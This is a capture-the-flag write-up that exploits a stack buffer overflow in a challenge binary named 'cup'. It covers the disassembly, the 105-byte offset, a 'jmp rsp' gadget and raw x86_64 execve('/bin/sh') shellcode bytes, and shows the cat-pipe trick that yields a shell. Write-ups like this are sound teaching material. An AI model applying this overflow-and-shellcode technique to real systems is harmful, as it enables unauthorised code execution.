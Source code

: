 # Your Cup Overfloweth

## Challenge
* Category: Binary Exploitation
* Points: 75

Your cup overfloweth. Drink up. Challenge Binary: cup. Listening on challenge.acictf.com:28950

### Hints
* Your cup (the stack) is executable.
* Your cup will bounce when it hits the floor in the right spot (gadget).
* Try not to spill any crumbs (newlines) into your cup.


## Solution

### Tools
* Hex-Rays IDA Pro (Community Edition)
* gdb
* Hexeditor
* ROPGaget

### Walkthrough
* The first step is to run the program. Since it's an elf file (linux executable) this has to be done in Linux. Kali Linux is as good of a choice as any.
* After playing around with it for a little bit I then ran it in gdb. `gdb cup`
* I quickly realized the program continued to time out, so then I decided to take a look at it in IDA Pro. To do this just open up IDA Pro and at address `0x4008E1` there is a system call to `alarm` which shuts down the program after 60 seconds. 

![alarm](alert.jpg)

* To give my self some more time to examine the binary I patched it by overwriting `0x4008E1` with `0x90909090` which is just 4 NOP instructions. 
* At this point there are two different approaches, examine the binary in IDA (static analysis) or to feed random input to the program (fuzzing). I decided to go with a little bit of static analysis to find a good starting point. I didn't see anything too interesting in the `main` function but then I saw the `read_line` function. This is used to get the type of cup will be used in the program.  

![read_line](read_line.png)

* One can see that a area on the stack is created that is 0x18 hex in size, and is named buf. 
`.text:000000000040082D 48 83 EC 20               sub     rsp, 20h`
* There is also the function called `read`, and one can see that it takes in 3 values. The interesting one is the buf variable.
```
.text:0000000000400835 48 8B 45 E8                mov     rax, [rbp+buf]
.text:0000000000400839 BA 01 00 00 00             mov     edx, 1          ; nbytes
.text:000000000040083E 48 89 C6                   mov     rsi, rax        ; buf
.text:0000000000400841 BF 00 00 00 00             mov     edi, 0          ; fd
.text:0000000000400846 E8 95 FE FF FF             call    _read
```
* This shows that the buf variable is moved to `rax` and then `rsi` which is used for the buffer. However, the variable only takes in one byte at a time. So this alone won't overflow the stack. But later in the instructions there is a check to make sure the byte was read. Then the byte is compare to `0x0A` which is the hex representation of a new line or the enter key. If it sees this it will leave the read line function. However, if not, it moves the adds one to the buffer address and then jumps to read the next byte. 
```
.text:0000000000400851 48 8B 45 E8                mov     rax, [rbp+buf]         ; get the buffer address
.text:0000000000400855 0F B6 00                   movzx   eax, byte ptr [rax]    ; read the value at the buffer address
.text:0000000000400858 3C 0A                      cmp     al, 0Ah                ; compare the value to a new line
.text:000000000040085A 74 0A                      jz      short loc_400866       ; if there is a new line jump to end of the function
.text:000000000040085C 48 83 45 E8 01             add     [rbp+buf], 1           ; increase the address location by 1
.text:0000000000400861 EB D2                      jmp     short loc_400835       ; jump to read next byte
```
* It should be very clear that if we read in more than 20 (0x18 )bytes you'll start writing over areas of the stack that you shouldn't.  
* I then added a lot more than 20 bytes of input to see what would happen.

![crash1](crash1.png)

* We see the message `Program received signal SIGSEGV, Segmentation fault.` which is great for binary exploitation. The other great thing that we saw is that `rbp` is `0x3131313131313131`. This is also great news because we can control a register. 
* After some trial and error I discovered that a string of 105 characters plus the enter key gets us different errors and looking at the address at the crash start. Then I looked. For example `print("1"*105 + "A")` will jump to the address `0x00007ffff7e10041`. As you can see the last 2 bytes `0x0041` is the null byte, a string terminator, and `0x41` which is just A.  Keep in mind x86 uses little endian architecture therefore the bytes are in reverse order. 
* Now we need to know where to jump to, ideally straight to the stack, but we don't have control of `rip`. However if we could jump to the stack that would work. This is where a ROP chain may come in handy. To run this simply type `ROPgadget --ropchain --binary cup`. 
* Taking a look at the output you can find `0x0000000000400827 : jmp rsp`. `rsp` is the location of the stack, therefore this will work perfectly. We will just jump there which will then jump to the stack. To get there we need to feed `0x27 0x08 0x40 0x00 0x00 0x00 0x00 0x00` into the program. Since these are not real ascii characters we will use python to print the 105 characters and the 8 non ascii characters. I printed them to a file, but you could also print them directly to to stdin. 
* Next we will need to get some shell code in there too. You can use metasploit, or do a search for x86_64 shellcode. Basically all you need is a system call to `exec()` and feed it the argument `/bin/sh`. For me it looked like: 
`0x6A 0x42 0x58 0xFE 0xC4 0x48 0x99 0x52 0x48 0xBF 0x2F 0x62 0x69 0x6E 0x2F 0x2F 0x73 0x68 0x57 0x54 0x5E 0x49 0x89 0xD0 0x49 0x89 0xD2 0x0F 0x05 0x0A`
* At first I was trying to run the code like `./cup < shellcode.txt`. But that wasn't working. I then discovered you can run `cat shellcode.txt - | ./cup` and the connection doesn't close. This gets you shell access, but there won't be any indicator that it works, but just run linux commands like `ls`. This will show you the flag.txt file. All you need to do then is `cat flag.txt`. 
